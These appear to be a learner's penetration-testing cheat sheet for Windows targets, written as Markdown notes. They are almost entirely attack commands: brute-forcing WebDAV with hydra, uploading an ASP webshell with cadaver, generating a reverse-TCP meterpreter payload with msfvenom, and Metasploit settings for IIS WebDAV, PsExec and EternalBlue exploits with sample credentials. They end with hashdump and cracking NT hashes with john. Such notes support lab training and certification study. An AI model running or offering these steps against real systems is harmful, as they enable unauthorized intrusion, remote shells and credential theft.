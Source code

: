 `service postgresql start && msfconsole `
`use post/multi/manage/shell_to_meterpreter` -- to shell to meterpreter
# Windows

### Frequently Exploited Windows Services

![[Frequently Exploited Windows Services.png]]

### Exploiting Windows Vulnerabilities
###### Exploiting Microsoft IIS WebDAV
- `nmap -sV -p 80 10.12.23.1 --script=http-enum`
- `hydra -L /path/to/word/list -P /path/to/word/list 10.11.23.12 http-get /webdav/` -- to brute force login
- `davtest -url http://10.12.2.21/webdav` 
   `davtest -auth username:password -url http://10.12.2.21/webdav` -- tells you what type of files you can upload or what types of file can be executed 
- `cadaver https://10.12.23.1` after this find the correct file which can be uploaded and upload it to server. To upload `put /usr/share/webshells/asp/webshell.asp` 
- msfvenom -- to generate payload
	 -  `msfvenom -p windows/meterpreter/reverse_tcp LHOST=<YOUR IP> LPORT=1234 -f asp > shell.asp`
	 - `service start postgresql && msfconsole` -- we need db because metasploit framework console requires the actual metasploit framework db
	 - `use multi/handeler`
	 - `set payload windows/meterpreter/reverse_tcp`
	 - `set LHOST <YOUR IP>`
	 - `set LPORT 1234`
	 - `run`
	 - OR
		 - use exploit/windows/iis/iis_webdav_upload_asp 
		 - set RHOSTS 10.0.17.27 
		 - set HttpUsername bob
		 - set HttpPassword password_123321 
		 - set PATH /webdav/metasploit.asp 
		 - exploit

###### Exploiting SMB With PsExec
-  `psexec.py USERNAME@IP cmd_to_run_on_windows`
- OR
	- use exploit/windows/smb/psexec 
	- set RHOSTS 10.0.0.242 
	- set LHOSTS 10.10.12.2
	- set SMBUser Administrator 
	- set SMBPass qwertyuiop 
	- exploit
 
###### Exploiting Windows MS17-010 SMB Vulnerability (EternalBlue) 
- Only works for SMBv1
- `nmap -sV -p 445 --script=smb-vuln-ms17-010 10.10.12.2`
- Msfconsole
	use exploit/windows/smb/ms17_010_eternalblue
	set payload windows/x64/meterpreter/reverse_tcp
	set RHOSTS
	set LHOSTS
	run
- `hashdump` -- run in meterpreter
- `shell` -- to go to the shell
- `john [HashFILE]--wordlist=/home/anurag/Downloads/rockyou.txt --format=NT ` -- to crack hashdump
